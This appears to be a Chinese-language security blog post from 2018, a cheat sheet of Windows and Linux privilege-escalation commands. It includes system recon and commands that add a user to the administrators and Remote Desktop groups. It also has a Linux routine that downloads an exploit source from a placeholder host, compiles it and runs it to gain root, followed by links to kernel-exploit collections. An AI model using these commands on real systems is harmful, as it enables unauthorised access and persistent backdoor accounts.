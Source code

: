 ```yaml
---
layout: post
title: "内网提权命令"
date: 2018-09-07
category: web安全
tags: web安全
---
```


## Windows基础命令

	net user xx

	query user #查看用户登录情况

	whoami #当前用户权限

	systeminfo #查看当前系统版本与补丁信息

	net user xx 123456 /add #添加用户

	net localgroup administrators xx /add #添加到管理员组

	net localgroup "Remote Desktop Users" xx /add #如远程桌面连接不上那么添加远程桌面组

	ipconfig #查看本机ip信息，可加 /all 参数

	netstat -ano #查看端口情况

	dir c:\ #查看目录

	type c:\Users\admin\Desktop\1.txt #查看指定位置文件内容，一般为文本文件

	echo 字符串>2.txt #写入文本到文件。特殊字符如<>等前面加^

	copy 1.txt 3.php #复制文件

	rename d:\2.txt mspaint.bat #将某个路径下的文件重命名

	tasklist #查看所有进程占用的端口

	taskkill /im xx.ext /f #强制结束指定进程 如 taskkill /im QQMusic.exe /f


## Windows基础提权命令

	查看系统信息
	systeminfo|findstr /B/C:"OS名称"/C:"OS版本"

	主机名
	Hostname

	环境变量
	Set

	查看用户信息
	Net user
	Net1 user

	查看服务pid号
	Tasklist/svc|find "TermService"
	netstat -ano|find "1488"

	查看系统名
	wmic os get caption

	查看补丁信息
	wmic dfe get Description,HotFixID,InstalledOn|findstr /C:"KB4013389" /C:"KB958644"

	查看当前安装程序
	wmic product get name,version

## Linux基础命令

	查看系统版本信息
		cat /etc/issue
		cat /etc/*-release
	查看内核版本
		uname -a



## Linux提权基础命令

	基础命令：
	uname -an
	id
	pwd
	cat /etc/issue

	套路：
	wget http://exp/exp.c
	gcc -o exp exp.c
	chmod +x exp
	./exp
	...到root

## LINK

[【权限提升】Linux 提权常用命令集](https://zhuanlan.zhihu.com/p/42358253)  
[SecWikiGithub](https://github.com/SecWiki)  
[SecWiki](https://www.sec-wiki.com/)  
[Exploit-db本地提权](https://www.exploit-db.com/local/)  
[Windows提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)  
[Linux提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)  
[Mac-OS提权漏洞集合](https://github.com/SecWiki/macos-kernel-exploits)  




